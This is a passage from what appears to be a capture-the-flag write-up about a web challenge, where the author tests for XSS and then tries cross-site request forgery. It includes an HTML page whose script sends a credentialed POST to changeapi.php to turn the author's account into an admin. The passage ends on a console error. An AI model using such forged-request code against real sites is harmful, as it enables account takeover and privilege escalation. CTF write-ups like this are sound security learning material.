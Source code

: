 
But I cannot get a XSS working so not XSS

## CSRF

I stucked for awhile, then I think maybe is CSRF?? [Cross-site request forgery](https://portswigger.net/web-security/csrf)

Because we can send a link to admin and if this website is vulnerable to CSRF we can send request from our website to change our account to admin!!

Then I use the javascript provided in the source and create a test html page:
```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
  <script type="text/javascript">
    function submitRequest(username)
    {
      var xhr = new XMLHttpRequest();
      xhr.open("POST", "changeapi.php", true);
      xhr.setRequestHeader("Accept", "application/json, text/plain, */*");
      xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
      xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
      xhr.withCredentials = true;
      xhr.send(JSON.stringify({'username':username}));
      xhr.onreadystatechange = function() {
      if (xhr.readyState === XMLHttpRequest.DONE) {
              if(xhr.responseText === 'nop'){
                  alert('no permission or something wrong');
              }
              else{
                  alert('success');
              }

          }
      }
    }
    submitRequest("skr");
  </script>

</body>
</html>
```
I opened it, it says success! But I checked there is no request in network tab, then I checked the console got some error

![error](/uploads/susctf2022/cors/error.png)
